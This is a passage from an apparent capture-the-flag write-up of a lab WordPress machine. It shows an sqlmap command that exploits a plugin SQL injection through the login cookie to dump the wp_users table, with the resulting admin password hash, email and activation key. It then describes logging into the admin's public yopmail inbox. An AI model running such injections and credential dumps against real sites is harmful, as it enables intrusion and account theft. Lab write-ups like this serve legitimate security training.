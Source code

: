 ```
| wp_links              |
| wp_loginizer_logs     |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

❯ sqlmap --dbms=mysql -u "http://172.17.0.2/wp-login.php" --cookie='wordpress_logged_in=*' -D wordpress -T wp_users -dump --batch  --level=2

Database: wordpress
Table: wp_users
[1 entry]
+----+-------------------+------------------------------------+------------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID | user_url          | user_pass                          | user_email             | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+----+-------------------+------------------------------------+------------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1  | http://172.17.0.2 | $P$BlCPtU.MZfjzs.1XeV6idsQWD.j0AL. | dockerlabs@yopmail.com | admin      | 0           | admin        | admin         | 2024-06-07 23:48:21 | 1717858554:$P$B.OWB2QOje2dpgrz0GKCjVxQuwsA9d/ |
+----+-------------------+------------------------------------+------------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+

```

Thanks to the WordPress plugin vulnerability, we were able to obtain credentials for the WordPress administrator. However, the issue arises with the password, as it is encrypted and cannot be decrypted to plaintext.

But there's more to discover—the user's email address uses the domain "yopmail.com," which correlates with the message we noticed earlier during enumeration. By trying the admin user's email on the yopmail service, we were able to access their inbox.

![1](attachment/78af99c07651395482eeeb8f5328cb98.png)
